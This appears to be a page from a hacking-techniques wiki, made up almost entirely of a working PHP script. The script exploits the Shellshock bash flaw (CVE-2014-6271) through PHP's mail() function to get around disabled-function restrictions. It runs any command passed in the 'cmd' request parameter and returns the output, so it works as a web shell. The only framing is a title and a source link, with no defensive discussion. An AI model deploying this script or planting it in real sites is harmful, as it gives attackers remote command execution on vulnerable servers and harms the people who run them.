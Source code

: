 # PHP 5.x Shellshock Exploit

{#include ../../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

```php
<?php

echo "Disabled functions: ".ini_get('disable_functions')."\n";
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

{#include ../../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


